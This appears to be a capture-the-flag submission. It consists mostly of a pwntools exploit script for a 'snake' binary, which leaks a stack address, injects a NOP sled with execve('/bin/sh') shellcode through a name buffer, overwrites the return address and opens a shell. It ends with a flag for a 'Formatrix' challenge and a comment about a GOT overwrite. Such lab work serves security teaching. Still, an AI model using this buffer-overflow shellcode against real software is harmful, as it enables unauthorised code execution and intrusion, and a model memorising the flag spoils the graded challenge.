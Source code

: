     from pwn import *


    def find_address(p):
        p.recvuntil("Quit") 
        p.sendline("3")

        p.recvuntil("passwd:")
        p.sendline("A" * 80)

        p.recvuntil("offset ")
        address = int(p.recvuntil("\n", drop = True), 16)

        return address


    def set_name(p, name):
        p.recvuntil("Quit")
        p.sendline("1")

        p.sendline(name)


    p = process("./snake")

    address = find_address(p) # when password is printed, instead it prints (&var 10/&input)
    address -= (0x1A)         # move to the address of the get_name buffer (var_10 -> var_36)

    payload = b""
    payload += b"\x90" * (0x36 - 0x22 - 0x14) # 0x22 bytes for payload, 0x?? bytes for NOPs before address
    payload += asm("""

        push 0x0068732f
        push 0x6e69622f

        mov ebx, esp
        mov eax, 0xb
        mov ecx, 0
        mov edx, 0
        mov esi, 0

        int 0x80
        
        """)
    payload += b"\x90" * (0x14)
    payload += p32(address)

    pause()

    set_name(p, payload)

    p.interactive()

==========================================================



==========================================================
Formatrix
==========================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNC1mb3JtYXRyaXgiLCJpcCI6IjEwMS4xNjQuMzMuMjE5Iiwic2Vzc2lvbiI6ImEyZjM3ZTFmLTE3NTQtNGY4My1hNjUyLTA1ZTA3NmVkNTIzNiJ9.WmoUQ0LzwufDf_TURKFepHAtL0ULKmHUzA-DAR2eKqc}
==========================================================
Comments:
    I'm submitting this late as I realised the mistake with my initial submission, I wasn't overwriting the address of the printf in the GOT, I was just overwriting printf
